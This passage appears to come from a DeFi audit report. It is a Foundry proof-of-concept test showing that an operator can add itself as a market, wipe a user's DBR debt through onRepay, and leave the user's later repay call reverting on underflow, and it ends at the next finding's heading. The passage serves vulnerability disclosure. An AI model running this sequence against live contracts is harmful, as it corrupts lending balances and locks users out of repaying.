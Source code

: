 ```
// Market.t.sol
// forge test -m "test_ModifyDebtOfAnUserAsOperatorAndBlockRepays" -vvv

function test_ModifyDebtOfAnUserAsOperatorAndBlockRepays() public {
    //
    // 1. Create an user and create their debt
    // 2. As a operator assign myself as a Market and modify the users debt with onRepay.
    //    The user will be with DRB.debts = 0
    // 3. As the user. try to repay and the transaction will revert because a underflow error.
    //
    //
    // 1. Create an user and give eth and deposit to the escrow.
    //
    uint amountToDeposit = 1 ether / 4;
    gibWeth(user, amountToDeposit);
    vm.startPrank(user);
    deposit(amountToDeposit);
    // Ask for borrow.
    uint amountToBorrow = convertWethToDola(amountToDeposit) * market.collateralFactorBps() / 10_000;
    market.borrow(amountToBorrow);
    // Assert the user debt
    assertEq(dbr.debts(user), amountToBorrow);
    assertEq(DOLA.balanceOf(user), amountToBorrow);
    vm.stopPrank();

    //
    // 2. As an operator assign myself as a "market" then modify the users debt
    //
    // // Assign myself as a "market"
    vm.startPrank(operator);
    dbr.addMarket(operator);
    // Remove the debt to the user
    dbr.onRepay(user, amountToBorrow);
    // Now check the debt balance of the user in DBR
    assertEq(dbr.debts(user), 0 ether);
    // Now check the debt balance of the user in Market.sol. It is unbalanced
    assertEq(market.debts(user), amountToBorrow);
    vm.stopPrank();

    //
    // 3. As the user. try to repay an the transaction will revert
    // It will revert because the DBR.debt user is 0 and this situation generates an over/underflow
    //
    vm.startPrank(user);
    vm.expectRevert("Arithmetic over/underflow");
    market.repay(user, 1 wei);
}
```

### ForceReplenish can be manipulated
